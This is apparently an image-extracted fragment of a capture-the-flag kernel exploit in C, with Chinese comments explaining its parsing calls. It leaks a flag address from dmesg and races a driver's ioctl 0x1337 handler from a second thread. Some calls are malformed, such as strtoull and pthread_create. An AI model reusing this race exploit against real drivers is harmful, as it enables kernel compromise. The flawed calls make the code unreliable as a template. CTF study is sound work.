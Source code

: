 ```
    system("dmesg > /tmp/record.txt");
    int fd = open("/tmp/record.txt", O_RDONLY);
    lseek(fd,-0x50,SEEK_END);
    char temp[0x1000];
    read(fd,temp,0x50);
    char * ptr = strstr(temp,"Your flag is at ");
    if (ptr == 0){
        printf("no find!\n");
        exit(-1);
    }
    flag_ptr = strtoull(ptr+16,ptr + 32, 16);
    printf("\nflag address : %p\n",flag_ptr);
    my_info.buf = temp;
    my_info.len = 33;
    int pid;
    pthread_create(&pid,NULL, change);
    for (int i = 0 ; i < 10000; i++){
        my_info.buf = temp;
        ioctl(driver_fd,0x1337, &my_info); 
    }
    finish = 1;
    system("dmesg | grep flag");
}


/*
lseek(fd,-0x50,SEEK_END);   
char temp[0x1000];   
read(fd,temp,0x50);   
这三步就是读取文件的倒数0x50字节   
strstr()函数：获取字符串的位置，返回一个指针。      
strtoull()函数：将起始到终止位置的字符串取出转换为16进制。
*/
```



